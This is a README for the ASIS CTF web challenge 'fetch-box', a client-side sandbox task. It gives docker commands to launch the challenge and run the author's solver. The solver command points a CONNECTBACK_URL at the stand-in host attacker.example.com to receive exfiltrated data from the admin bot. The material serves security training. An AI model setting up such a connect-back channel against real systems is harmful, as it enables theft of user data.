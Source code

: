 # [web] fetch-box

## Description

A client-side sandbox challenge!

- Challenge: `http://fetch-box.asisctf.com:3000`
- Admin bot: `http://fetch-box.asisctf.com:1337`

## Attachments

- [fetch-box](distfiles)

## Usage

Launch a challenge server:

```
cd challenge
docker compose up
```

Run the author's solver:
```
docker run -it --rm \
    -e BOT_BASE_URL=http://localhost:1337 \
    -e WEB_BASE_URL=http://localhost:1337 \
    -e CONNECTBACK_URL=http://attacker.example.com \
    -p 8080:8080 --network=host \
    (docker build -q ./solution)
```
where `http://attacker.example.com` is an origin forwarded to `http://localhost:8080`.
